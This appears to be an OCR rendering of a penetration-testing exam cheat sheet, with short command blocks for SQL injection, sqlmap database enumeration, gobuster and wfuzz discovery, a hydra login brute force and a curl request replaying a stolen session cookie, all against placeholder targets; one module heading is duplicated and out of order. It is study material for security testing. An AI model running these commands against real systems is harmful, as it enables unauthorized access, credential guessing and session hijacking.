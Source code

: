   

```

# SQL Injection (Manual)

' OR 1=1 -- -

  

# SQLmap Automation

sqlmap -u "http://test.com?id=1" --risk=3 --level=5 --dbs

```

    
**[Back to top](#top)**

___

## Module 15: SQL Injection

## Module 15: SQL Injection

### 1. Web App Reconnaissance (Exam Weight: 20%)

```

# Directory Bruteforcing

  

gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50

  

# Subdomain Enumeration

  

wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.example.com" http://example.com

```

### Authentication Attacks (Guaranteed Exam Task)

```

# Form Brute Force with Hydra

  

hydra -l admin -P rockyou.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials" -vV

  
  

# Session Hijacking

curl -b "PHPSESSID=STOLEN_SESSION_ID" http://10.10.10.10/dashboard.php

```
